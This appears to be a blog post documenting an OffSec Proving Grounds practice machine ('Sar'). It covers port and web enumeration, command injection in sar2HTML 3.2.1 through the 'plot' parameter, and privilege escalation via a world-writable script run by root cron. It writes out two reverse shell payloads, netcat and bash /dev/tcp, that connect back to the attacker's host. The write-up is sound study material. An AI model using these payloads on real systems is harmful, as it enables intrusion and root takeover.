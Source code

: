 ```yaml
---
title: OffSec PG - Sar
date: 2021-12-19 12:00:00 +0500
categories: [Lab Practice Notes, OffSec Proving Grounds]
tags: [oscp,lab,offsec-proving-grounds]
image:
  path: /assets/img/covers/pg-cover.jpeg
  alt: PG Artwork
---
```


## Enumeration

Machine IP &rarr; `192.168.147.35`

### Network Scan

Nmap scan &rarr; `nmap -A -Pn -p- -T4 -o nmap.txt 192.168.147.35`

OS Detection &rarr;  `OS: Linux; CPE: cpe:/o:linux:linux_kernel`

### Table

| **Port** | **Service** | **Other details (if any)**                                   |
| -------- | ----------- | ------------------------------------------------------------ |
| 22       | SSH         | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) |
| 80       | HTTP        | Apache httpd 2.4.29 ((Ubuntu))                               |

### Web Scan

GoBuster scan &rarr; `gobuster dir -u http://192.168.147.35 -w /home/tanq/installations/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,php,txt`

Directories/files listed &rarr;

- index.html
- robots.txt
- phpinfo.php

Robots txt reveals a directory `sar2HTML`, which has an index.php page. The version for the sar2HTML is 3.2.1.

---

## Exploitation

Google-fu reveals the existence of an RCE exploit for the sar2HTML version 3.2.1. For this exploit, `/sar2HTML/index.php?plot=;whoami` executes the command. The result can be seen on the webpage. Therefore, this was used to enumerate presence of bash, python and netcat. The `/etc/passwd` file was also printed which revealed the 2 users of importance to be `root` and `love`.

Thus, a reverse shell can be spawned using bash payload `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.147 3002 >/tmp/f` for the user `www-data`.

The user flag was in the `/home/` directory.

---

## Privilege Escalation

Looking at setuid binaries, the most interesting ones are `arping` and `ping`. Looking at the crontab, there is a process that runs every 5 mins as the root user &rarr; `cd /var/www/html/ && sudo ./finally.sh`. Checking the code of the file, it seems that it runs another file called `write.sh`, which is world writable.

Therefore, using a reverse shell payload to get connection from the machine would execute it as root, thereby, giving a root shell.

This can be done via `echo "/bin/bash -c 'bash -i >& /dev/tcp/192.168.49.147/3003 0>&1'" >> write.sh`. This gives a shell in 5 minutes. Subsequently, it also gives the root flag.

---
